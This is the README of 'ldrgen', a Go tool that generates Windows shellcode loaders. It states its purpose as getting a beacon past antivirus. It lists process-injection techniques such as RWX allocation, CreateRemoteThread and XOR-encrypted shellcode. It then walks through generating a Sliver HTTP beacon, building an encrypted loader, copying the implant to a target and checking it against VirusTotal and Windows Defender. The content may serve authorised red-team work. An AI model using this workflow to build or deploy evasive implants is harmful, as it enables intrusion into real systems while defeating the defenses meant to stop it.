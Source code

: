 # ldrgen

ldrgen is a golang cli tool to generate shellcode loaders

## Usage
```
go build .
./ldrgen --help
```

## Why?
When you want to drop your beacon to disk but AV keeps nuking you, and you're too lazy to write a loader

## Loader Tokens
Currently available injection tokens:
- [Inline.c](./templates/Source/Inline.c)
    - `VirtualAlloc` to allocate RWX memory, `memcpy` shellcode, execute inline with `( (void ( * )())exec )();`
- [Inline_Xor.c](./templates/Source/Inline_Xor.c)
    - `VirtualAlloc` to allocate RWX memory, `memcpy` shellcode, encrypt shellcode via [Xor.c](./templates/Source/Xor.c), execute inline with `( (void ( * )())exec )();`
- [CreateRemoteThread.c](./templates/Source/CreateRemoteThread.c)
    - `OpenProcess`, `VirtualAllocEx` with *PAGE_EXECUTE_READWRITE*, `WriteProcessMemory` and `CreateRemoteThread` to execute shellcode
- [CreateRemoteThreadRX.c](./templates/Source/CreateRemoteThreadRX.c)
    - `OpenProcess`, `VirtualAllocEx` with *PAGE_EXECUTE_READ*, `WriteProcessMemory`, `VirtualProtectEx` with *PAGE_EXECUTE_READ* and `CreateRemoteThread` to execute shellcode

## Shellcode Templates
These are globally accessible variables via loader templates, and will be replaced with the appropriate values when generating the loader source code.
1. [Shellcode.c](./templates/Source/Shellcode.c)
    - `${SHELLCODE}` -> shellcode in the format: { 0x00, 0x00, 0x00, 0x00, ... }
    - `${SHELLCODE_SIZE}` -> shellcode length in bytes
2. [Shellcode.h](./templates/Include/Shellcode.h)
    - `extern unsigned char shellcode[];`
    - `extern size_t shellcode_size;`

## Usage 
```bash
git clone https://github.com/gatariee/ldrgen
cd ./ldrgen
go build -o ldr .
./ldr --help
```

## Example (calc.exe)
```bash
./ldr -bin ./dev/calc_shellcode/calc.bin -out ./output -ldr CreateThread_Xor -enc xor -key SuperSecureKey1234 --cleanup
cd output && make x64
```

## Example (sliver beacon)

### Sliver Shellcode Generation
```bash
sliver > generate beacon --http <listener_ip> --format shellcode
```
![shellcode_gen](./assets/126b19d26d4e3af6573a5f5bc2802f84.png)

### Loader Generation
```bash
./ldr -bin SEMANTIC_CUPOLA.bin -out output -ldr CreateThread_Xor -enc xor -key aahduiahsdgiasudhagsdashdasgjdhka --cleanup
```
![ldr_gen_1](./assets/b48b971be9df335205f1d3f7a9c768d4.png)
- binfile -> **SEMANTIC_CUPOLA.bin**
- output to -> **./output**
- use technique -> **CreateThread**
- with encryption: **xor**
- with key: **aahduiahsdgiasudhagsdashdasgjdhka**
- delete tempfiles after compilation: **true**

### Compilation
```bash
cd output && make x64
```
![ldr_gen_2](./assets/da7bf205f86324a0a7275d57760fb7db.png)

- compile for x64 windows, alternatively compile for x86 with `make x86` (make sure your shellcode arch is the same as the loader arch)

![ldr_gen_3](./assets/6b69c6bb7c677ff7b9ea7f2cd6ea1692.png)

### Beacon
Copy `implant_x64.exe` to your target, see: [here](https://gitbook.seguranca-informatica.pt/cheat-sheet-1/stuff/file-transfer).

If you're worried about detections, run your implant through AV before deploying it to your target. (avoid VT if you care about getting sigged, but I'll use it cos I'm lazy.)

![vt](./assets/80f44df4910f31c74259ccfbddc7f97d.png)
*https://www.virustotal.com/gui/file/a88b7bee6e5dab73f158093d9f4ec9e556bd6984689efac44bafe3f600020b66?nocache=1*

This should be fine for Windows Defender.
![windef](./assets/9a6355fc57ae8c9afb8bf9f73bc8e71a.png)

### Beacon Callback
![sliver_callback](./assets/207cde0dd0375bfa437d937ca7414e2b.png)
![sliver_rubeus](./assets/619e6ee387d2bfe44f4927f8f53054a1.png)

### OPSEC
- This tool **helps** with **generating loaders** using templates, it **does not** help with **OPSEC**. 
- Evasive features of the loader is up to the operator to implement.